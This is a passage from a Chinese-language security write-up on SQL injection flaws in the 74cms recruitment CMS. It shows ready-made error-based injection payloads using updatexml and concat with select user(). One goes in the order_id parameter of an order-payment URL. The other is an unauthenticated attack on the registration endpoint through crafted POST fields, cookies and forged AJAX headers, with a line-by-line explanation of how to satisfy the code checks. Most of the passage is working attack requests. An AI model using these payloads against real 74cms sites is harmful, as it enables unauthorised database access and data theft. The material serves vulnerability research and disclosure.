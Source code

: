 
![](images/15889215074976.png)


注册完成以后登录前台即可

`url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a`

![](images/15889215227243.png)


## 0x07 74cms独有框架漏洞第三处

文件：`74cms\upload\Application\Home\Controller\MembersController.class.php`

方法：`register(`

是否需登录：不需要

![](images/15889215410123.png)



```bash
url: 
http://74cms.test/index.php?m=&c=Members&a=register
post: 
reg_type=2&utype=2&ucenter=bind&unbind_mobile=1

cookie:
members_uc_info[reg_type]=1;members_uc_info[utype]=2;members_uc_info[mobile][0]=match;members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;

headers:
  Content-Type: application/x-www-form-urlencoded
  X-Requested-With: XMLHttpRequest
```

![](images/15889215548343.png)



```bash
这里我要大概讲一下参数的问题
post: 
reg_type=2            // 必须为2 为了绕过一个注册判断，为1的话，会直接创建帐户，导致无法利用漏洞
utype=2         // 判断会员类型的也必须为2 为1会直接创建一条数据，导致无法利用漏洞      
ucenter=bind           // 必须为bind因为要靠他，获取cookie(members_uc_info)并且合并为$data数组进行利用
  unbind_mobile=1       // 只要有此字段即可，只是单纯为了满足流程判断的

cookie:
members_uc_info[reg_type]=1;         // 必须为1 满足流程需要
members_uc_info[utype]=2;         // 必须为2 满足流程需要
members_uc_info[mobile][0]=match;    // 框架漏洞利用
members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;  // 这里输入注入语句

headers:  // 伪造ajax操作
  Content-Type: application/x-www-form-urlencoded
  X-Requested-With: XMLHttpRequest
```
